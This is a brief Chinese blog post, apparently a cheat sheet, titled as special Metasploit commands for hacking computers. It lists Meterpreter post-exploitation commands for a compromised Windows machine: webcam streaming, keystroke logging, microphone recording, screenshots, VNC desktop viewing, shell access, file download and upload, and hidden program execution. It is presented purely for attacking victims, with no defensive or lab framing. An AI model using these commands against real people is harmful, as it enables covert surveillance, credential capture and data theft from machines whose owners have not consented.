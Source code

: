 ```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
subtitle: 'Metasploit'
tags: linux 命令 shell
keywords: Msf Metasploit shell 黑电脑 专用
---
```

### 使用vnc查看桌面
```msf
run vnc
```
### 监视摄像头
```msf
webcam_stream
```
### 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```
### 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
### 截屏
```msf
screenshot
```
### 进入cmd
```msf
shell
```
### 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
### 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
### 查看有几个摄像头
```msf
webcam_list
```
### 运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```
